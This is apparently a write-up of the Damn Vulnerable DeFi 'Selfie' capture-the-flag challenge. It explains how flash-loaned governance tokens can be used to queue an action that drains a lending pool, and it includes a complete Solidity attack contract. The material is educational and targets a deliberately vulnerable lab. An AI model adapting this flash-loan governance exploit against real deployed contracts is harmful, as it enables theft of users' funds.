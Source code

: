 ```yaml
---
description: https://www.damnvulnerabledefi.xyz/challenges/selfie/
---
```


# 6. Selfie

### Objective

* A lending pool offering flash loans of DVT tokens.&#x20;
* Includes a fancy governance mechanism to control it.
* You start with no DVT tokens in balance, and the pool has 1.5 million.&#x20;
* Your goal is to take them all.

### Approach

SelfiePool has a `drainAllFunds` function that can only be called by the SimpleGovernance contract.&#x20;

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Let us examine if we can subvert the governance contract for our purposes.

#### SimpleGovernance

Governance is based on the DVT token:

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

Voting power is based on the proportion of number of tokens held against half of total supply

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This means that if msg.caller has sufficient DVT tokens such that its balance > halfTotalSupply, msg.caller has sufficient voting power and therefore can queue a governance action successfully.\


<figure><img src="../../.gitbook/assets/image (350).png" alt=""><figcaption></figcaption></figure>

### Solution

1. Attacker to take the largest flash loan from SelfiePool possible,
2. Using voting power from flash loan to pass a governance action via SimpleGovernance using queueAction and executeAction
   1. call drainAllFunds with beneficiary as attacker address

#### queueAction and executeAction

**queueAction** takes in an `address`, `calldata`, and `weiAmount` as parameters. These fields are stored in a struct

* address: target contract address to take action on  ("receiver")
* calldata: abi encoded function signature:

```solidity
bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), type(uint256).max
        );
(bool success, bytes memory data) = target.call{value: 111, gas: 5000}(data)ol
```

* weiAmount: this is the value field for `target.call{value:`` `**`value`**`}(data)`
  * basically how much ether to send over

**executeAction**&#x20;

* external, payable
* Anyone can call executeAction, passing an actionId
* only constraints are:&#x20;
  * action has not been executed yet
    * `actionToExecute.executedAt == 0`&#x20;
  * action is ready to be executed (delay has been exceeded)
    * ```solidity
      (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
      ```

The core of executeAction is&#x20;

{% code overflow="wrap" %}
```solidity
actionToExecute.receiver.functionCallWithValue(actionToExecute.data, actionToExecute.weiAmount);
```
{% endcode %}

* functionCallWithValue is from OpenZepplin's Address library:

<figure><img src="../../.gitbook/assets/image (219).png" alt=""><figcaption><p><a href="https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol">https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol</a></p></figcaption></figure>

Fundamentally, it is a low-level call, where value is the weiAmount and data is the data we passed earlier in queueAction as parameters.

### Solution Code

{% tabs %}
{% tab title="First Tab" %}
<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Code" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {SimpleGovernance} from "./SimpleGovernance.sol";
import {SelfiePool} from "./SelfiePool.sol";
import {DamnValuableTokenSnapshot} from "./../DamnValuableTokenSnapshot.sol";

contract Attack {
    address owner;
    SelfiePool public selfiePool;
    SimpleGovernance public governance;
    uint256 public drainActionId;

    constructor(SelfiePool selfiePool_, SimpleGovernance governance_) {
        owner = msg.sender;
        selfiePool = selfiePool_;
        governance = governance_;
    }

    ///@notice Take loan from pool
    function borrow(uint256 amount) external {
        require(msg.sender == owner, "only owner");
        selfiePool.flashLoan(amount);
    }

    ///@notice Flashloan callback function
    function receiveTokens(address token, uint256 amount) external {
        require(msg.sender == address(selfiePool), "only pool");

        DamnValuableTokenSnapshot(token).snapshot();

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(owner));
        drainActionId = governance.queueAction(address(selfiePool), data, 0);

        // transfer back funds
        DamnValuableTokenSnapshot(token).transfer(address(selfiePool), amount);
    }
}
```
{% endtab %}
{% endtabs %}

1. Initiate flashloan with borrow()
2. selfiePool contract will callback `receivetokens`; this will lead to execution of the attack.
   1. queueAction: drainAllfunds
   2. return borrowed tokens
3. executeAction can be called by anyone after the defined delay has passed. Therefore we do not need to execute this via contract.&#x20;
4. ```solidity
   DamnValuableTokenSnapshot(token).snapshot();
   ```
   1. this is needed because queueAction calls `_hasEnoughVotes`which calculates addresses balances based on snapshots.

**Note**

The attack component must be shoeboxed into the callback function instead of the initial borrow function.

Execution of flashloan() only completes after the tokens are returned. This means that the following will not work:

```solidity
    function borrow(uint256 amount) external {
        require(msg.sender == owner, "only owner");
        selfiePool.flashLoan(amount);

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(owner));
        drainActionId = governance.queueAction(address(selfiePool), data, 0);

    }
```

&#x20;Since the flashloan will be settled before the attack code is executed -> without the benefit of borrowed tokens.
